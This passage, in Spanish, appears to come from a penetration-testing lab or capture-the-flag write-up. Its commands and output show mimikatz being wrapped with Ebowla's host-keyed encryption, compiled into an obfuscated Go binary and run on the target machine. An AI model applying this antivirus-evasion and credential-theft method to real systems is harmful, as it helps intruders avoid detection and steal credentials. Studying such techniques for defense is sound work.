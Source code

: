 Se extraen así:

```null
C:\Windows\system32>echo %username%
echo %username%
HARIS-PC$
```

Ejecuto pasándole como argumentos el binario y archivo de configuración

```null
python2 ebowla.py /opt/mimikatz/x64/mimikatz.exe genetic.config
[*] Using Symmetric encryption
[*] Payload length 1250056
[*] Payload_type exe
[*] Using EXE payload template
[*] Used environment variables:
	[-] environment value used: Number_of_processors, value used: 2
	[-] environment value used: computername, value used: haris-pc
	[-] environment value used: path, value used: c:\windows\system32;c:\windows;c:\windows\system32\wbem;c:\windows\system32\windowspowershell\v1.0\;
	[-] environment value used: processor_identifier, value used: amd64 family 23 model 49 stepping 0, authenticamd
	[-] environment value used: username, value used: haris-pc$
[!] Path string not used as pasrt of key
[!] External IP mask NOT used as part of key
[!] System time mask NOT used as part of key
[*] String used to source the encryption key: 2haris-pcc:\windows\system32;c:\windows;c:\windows\system32\wbem;c:\windows\system32\windowspowershell\v1.0\;amd64 family 23 model 49 stepping 0, authenticamdharis-pc$
[*] Applying 10000 sha512 hash iterations before encryption
[*] Encryption key: 806087d541e153e8619a77e8a6d2bdc5254907dc915e502ed42319d07c81c51d
[*] Writing GO payload to: go_symmetric_mimikatz.exe.go
```

Lo compilo para subirlo a la máquina víctima

```null
./build_x64_go.sh output/go_symmetric_mimikatz.exe.go obfmimikatz.exe
[*] Copy Files to tmp for building
[*] Building...
[*] Building complete
[*] Copy obfmimikatz.exe to output
[*] Cleaning up
[*] Done
```

Finalmente ejecuto

```null
C:\Windows\Temp\Privesc>.\obfmimikatz.exe
.\obfmimikatz.exe
[*] IV: 74839abdadef999b92691ebb88abce6d
[*] Size of encrypted_payload:  1666816
[*] Hash of encrypted_payload: b6efdeb8d861ddb01c8329903512d80cbc6a7867834a8af5c0d559717a51135c526de6af7e184d8ddb357cabf00139d2795dac23f4a1ee69f5bf9221cefeea2c
[*] Number of keys: 1
[*] Final key_list: [2haris-pcc:\windows\system32;c:\windows;c:\windows\system32\wbem;c:\windows\system32\windowspowershell\v1.0\;amd64 family 23 model 49 stepping 0, authenticamdharis-pc$]
==================================================
[*] Key: 2haris-pcc:\windows\system32;c:\windows;c:\windows\system32\wbem;c:\windows\system32\windowspowershell\v1.0\;amd64 family 23 model 49 stepping 0, authenticamdharis-pc$
[*] Computed Full Key @ 2710 iterations: 806087d541e153e8619a77e8a6d2bdc5254907dc915e502ed42319d07c81c51dbf929954e5b4d8497ffab373f05b4046091da6393a9fbed20c2559f16d5af430
[*] AES Password 806087d541e153e8619a77e8a6d2bdc5254907dc915e502ed42319d07c81c51d
[*] Decoded Payload with Padding: a9631874abeaa84344704bf00643aad71f41eaa117ee5ea7bc9fdb529d44f255190a6338924a305cec6fdd7d5449598e6e122c9994d81ee247cfd614b039c14d
[*] Message Length: 1250056
```